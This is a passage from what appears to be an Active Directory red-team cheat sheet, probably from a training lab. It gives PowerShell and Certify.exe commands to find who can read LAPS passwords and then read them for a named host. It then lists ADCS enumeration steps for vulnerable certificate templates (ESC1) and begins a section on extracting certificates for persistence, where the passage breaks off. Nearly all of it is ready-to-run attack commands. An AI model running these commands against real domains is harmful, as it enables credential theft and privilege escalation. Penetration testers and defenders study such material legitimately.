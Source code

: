     Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { ($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}

    # Using AD module
    . .\Get-lapsPermissions.ps1
    Get-AdmPwdPassword -ComputerName US-MAILMGMT

    # Using LAPS Module
    Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1
    Find-AdmPwdExtendedRights -Identity OUDistinguishedName
    Get-AdmPwdPassword -ComputerName US-MAILMGMT

    ```

### Active Directory Certificate Services (ADCS)

    ```powershell

    # Conditions of vulnerable certificate template which can be abused
    - CA grants normal/low privileged users enrollment rights
    - Manager approval is disabled
    - Authorization signatures are not required
    - target template grants normal/low privileged users enrollment rights

    >> Enumerating - Active Directory certificate Service (ADCS) 

    # Identify the ADCS service installation
    Certify.exe cas

    # Enumerate the templates configured
    Certify.exe find

    # Enumerate the vulnerable templates
    Certify.exe find /vulnerable

    # If the enrolleeSuppliesSubject is not not allowed for all domain users, it wont show up in vulnerable template and needs to enumerated seperately (ESC1)
    Certify.exe find /enrolleeSuppliesSubject

    >> Persistance (THEFT-4): Extracting User and Machine certificates

    # List all certificates for local machine in certificate store
    ls cert:\LocalMachine\My
